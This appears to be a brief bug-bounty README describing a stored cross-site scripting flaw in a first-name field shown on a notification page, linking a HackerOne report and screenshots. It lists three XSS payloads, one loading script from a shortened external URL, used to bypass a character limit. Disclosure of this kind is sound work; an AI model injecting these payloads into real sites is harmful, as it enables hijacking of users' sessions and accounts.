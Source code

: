 # -hack1chall
STORED XSS in frist name on page notification bypass limit character

HackerOne : https://hackerone.com/reports/1032059

`<script src=//cutt.ly/s-></script>`
`<script src=url.js/>` 
`<svg onload=alert(1) />` 


![1](/Screenshot_2020-11-12%20Your%20tournaments%20-%20Challonge.png)
![2](/Screenshot_2020-11-12_08-35-57.png)

